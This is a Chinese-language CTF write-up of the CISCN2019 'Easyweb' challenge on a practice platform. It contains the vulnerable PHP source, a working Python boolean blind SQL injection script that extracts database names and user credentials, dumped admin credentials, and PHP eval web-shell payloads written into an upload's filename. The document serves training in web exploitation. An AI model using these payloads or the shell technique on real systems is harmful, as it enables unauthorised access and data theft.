




---

title: CISCN2019总决赛Day2Web1-Easyweb
date: 2025-04-06 17:33:52
tags:
- sql盲注
- sql语句闭合
- str_replace
- 文件上传
- 短标签绕过
category:
- 刷题笔记
---

# CISCN2019总决赛Day2Web1-Easyweb

首先启动靶机访问，上来就是一个登录界面



一开始看到这个界面以为又是xxe，然后抓了个包发现不是，用dirsearch扫一下发现存在robots.txt

访问一下



很明显要我们去下载源码

试了一下index.php、user.php、image.php，发现只有image.php能下载

```
http://1d9b702f-7081-49e6-a523-34c308217272.node5.buuoj.cn:81/image.php.bak
```

下载下来之后代码审计

```
<?php

include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);


$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

发现sql执行语句，猜测存在sql注入

传入两个参数，经过一系列过滤后进行sql查询，我们注意到最后有个 readfile() 函数，尝试构造闭合，但是单引号被过滤了，这里就可以采用 \ 转义字符来进行绕过。

如果最后传入的 id 值为 \ ，那么sql语句就为：

```
select * from images where id = '\' or path = '';
```

这里的\将第二个单引号给转义掉了，那么第一个单引号就会找第三个单引号闭合，然后我们就可以在path的值里进行布尔盲注

我们可以传入

```
?id=\\0&path=or 1=1 --+
```

**因为当我们传入的id的值 \\0 后，他会先经过addslashes() 函数，出来后的 id 值就变成了 \\\0 ,那么在str_replace() 函数中，\\0会被换空，最终到sql 语句中就变成了** 

然后就能构造python脚本了

```
import requests
 
url = 'http://a207ac0d-bb73-4659-b0b5-728248675810.node4.buuoj.cn:81/image.php'
flag = ''
 
payload1 = "?id=\\0& path=or(ord(substr((select(database())),{},1))>{})%23"
payload2 = "?id=\\0& path=or(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{},1))>{})%23"
payload3 = "?id=\\0& path=or(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=0x7573657273)),{},1))>{})%23"
payload4 = "?id=\\0& path=or(ord(substr((select(group_concat(username,password))from(users)),{},1))>{})%23"
for i in range(1,1000):
    low =  32
    high = 128
    mid = (low + high)//2
    while(low<high):
        payload = payload4.format(i,mid)
        new_url= url+payload
        r= requests.get(new_url)
        if "JFIF" in r.text:
            low=mid+1
        else:
            high=mid
 
        mid = (low+high)//2
    if (mid == 32 or mid == 128):
        break
    flag +=chr(mid)
    print(flag)
 
print(flag)
```

成功跑出账号密码，之后登录

```
admin
4d656169a6437ad3f073
```

登录成功之后发现是一个文件上传页面



直接上传php文件，发现上传失败，但是可以上传phtml文件

同时文件中不允许存在php，所以可以使用短标签绕过，试了一下用`<script language='php'>@eval($_POST[1]);</script>`也可以

```
<?= @eval($_POST[1]); ?>
或者
GIF89a <script language='php'>@eval($_POST[1]);</script>
```

然后返回给我们文件上传路径

```
logs/upload.05571ffc0f0ba134f932c75082af160e.log.php
```

但是发现蚁剑无法连接

我们直接访问一下logs/upload.05571ffc0f0ba134f932c75082af160e.log.php看看，发现



并没有文件内容，只有用户名和文件名在里面。所以文件名才是传马的重点，内容无所谓

---

查看大佬题解

读upload.php源码，不能上传php文件，file_put_contents可以把字符串写到文件中去，这个字符串包含了文件名

所以我们可以使用用文件名写马 进行连接

先上传，然后抓包，修改filename

```
filename改为
<?=@eval($_POST[1]);?>
```

文件上传路径

```
logs/upload.05571ffc0f0ba134f932c75082af160e.log.php
```

然后用蚁剑连接即可拿到flag


